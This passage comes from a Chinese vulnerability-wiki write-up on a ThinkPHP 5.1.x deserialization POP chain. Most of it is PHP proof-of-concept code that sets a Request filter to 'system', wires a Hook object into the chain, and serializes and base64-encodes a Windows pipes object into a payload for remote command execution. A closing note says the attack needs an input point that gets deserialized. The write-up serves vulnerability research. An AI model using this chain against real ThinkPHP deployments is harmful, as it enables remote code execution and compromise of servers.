             // PATHINFO变量名 用于兼容模式
            'var_pathinfo'     => 's',
            // 兼容PATH_INFO获取
            'pathinfo_fetch'   => ['ORIG_PATH_INFO', 'REDIRECT_PATH_INFO', 'REDIRECT_URL'],
            // 默认全局过滤方法 用逗号分隔多个
            'default_filter'   => '',
            // 域名根，如thinkphp.cn
            'url_domain_root'  => '',
            // HTTPS代理标识
            'https_agent_name' => '',
            // IP代理获取标识
            'http_agent_ip'    => 'HTTP_X_REAL_IP',
            // URL伪静态后缀
            'url_html_suffix'  => 'html',
        ];
        function __construct(){
            $this->filter = "system";
            $this->config = new Hook();
            $this->hook = ["append"=>[$this,"isAjax"]];
        }

    }
    namespace think;
    class Hook{
        private $tags = ["var_ajax"=>'a'];
        public function get($tag = '')
        {
            if (empty($tag)) {
                //获取全部的插件信息
                return $this->tags;
            } else {
                return array_key_exists($tag, $this->tags) ? $this->tags[$tag] : [];
            }
        }
    }
    use think\process\pipes\Windows;
    echo base64_encode(serialize(new Windows()));

> 漏洞的利用前提是存在一个点可以输入点可以反序列化。

![](/Users/aresx/Documents/VulWiki/.resource/Thinkphp5.1.1反序列化pop链构造/media/rId26.png)

